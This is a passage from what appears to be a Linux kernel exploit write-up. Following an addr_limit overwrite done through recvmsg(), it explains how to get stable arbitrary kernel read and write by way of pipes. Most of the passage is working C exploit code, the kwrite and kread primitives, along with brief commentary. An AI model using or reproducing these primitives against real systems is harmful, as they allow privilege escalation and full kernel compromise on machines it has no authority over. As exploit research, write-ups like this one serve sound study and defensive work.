 ```c
    printf("\t[-] recvmsg() wasn't able to overwrite addr_limit: returned 0x%x instead of 0x%x\n", received_bytes_addr_limit, expected_bytes_addr_limit);
    exit(-1);
}
```

**Stable arbitrary kernel r/w**

Now that we overwrote  `addr_limit`, getting arbitrary kernel r/w is as easy as using pipes :p

We obviously create a new pair of pipes for reading and writing to arbitrary addresses, after that the journey is easy. For arbitrary write we just need to `write()` the data we wanna write to the pipe, and `read()` the data back to the kernel address we wanna write to.

```c
int kwrite(uint64_t kaddr, void* user_value, size_t size) {
    /* doing this to avoid possible issues */
    if(size > 0x1000) {
        printf("\t[-] writing more than a kernel page can cause issues\n");
    }
    /* writes user's value to pipe */
    if( write(KWRITE_PIPE, user_value, size) == -1 ) {
        printf("\t[-] failed to write the value to the pipe\n");
        return -1;
    }
    /* writes the user's value we wrote to the pipe to the kaddr */
    if( read(KREAD_PIPE, (void*)kaddr, size) == -1 ) {
        printf("\t[-] failed to write to kernel memory\n");
        return -1;
    }
    return 0;
}
```

For the arbitrary read it's exactly the opposite, we just need to `write()` the kernel address we wanna read from to the pipe, and `read()` back to the userland buffer.

```c
int kread(uint64_t kaddr, void *user_value, size_t size) {
    /* doing this to avoid possible issues */
    if(size > 0x1000) {
        printf("\t[-] reading more than a kernel page can cause issues\n");
    }
    /* writes kernel data to pipe */
    if( write(KWRITE_PIPE, (void*)kaddr, size) != size ) {
        printf("\t[-] failed to read kernel data\n");
        return -1;
    }
    /* writes the value we wrote to the pipe to the kaddr */
    if( read(KREAD_PIPE, user_value, size) != size ) {
        printf("\t[-] failed to copy data to userspace\n");
        return -1;
    }
    return 0;
}
```

